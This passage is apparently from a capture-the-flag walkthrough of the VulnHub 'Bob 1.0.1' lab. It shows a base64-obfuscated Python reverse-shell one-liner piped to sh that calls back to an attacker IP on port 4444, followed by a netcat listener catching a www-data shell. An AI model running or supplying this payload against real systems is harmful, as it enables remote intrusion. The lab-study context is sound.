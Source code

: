 		![](images/Pasted%20image%2020220122155311.png)
	2. Final Payload
		```
		echo -n cHl0aG9uIC1jICdhPV9faW1wb3J0X187cz1hKCJzb2NrZXQiKS5zb2NrZXQ7bz1hKCJvcyIpLmR1cDI7cD1hKCJwdHkiKS5zcGF3bjtjPXMoKTtjLmNvbm5lY3QoKCIxOTIuMTY4LjIzNi40Iiw0NDQ0KSk7Zj1jLmZpbGVubztvKGYoKSwwKTtvKGYoKSwxKTtvKGYoKSwyKTtwKCIvYmluL3NoIikn | base64 -d | sh
		```
	3. Obtain www-data shell
		```
		┌──(root💀kali)-[~/vulnHub/Bob1.0.1/192.168.236.5/loot/http]
		└─# nc -nvlp 4444
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444
		Ncat: Connection from 192.168.236.5.
		Ncat: Connection from 192.168.236.5:57636.
		$ whoami
		whoami
		www-data
		```
		![](images/Pasted%20image%2020220122155513.png)
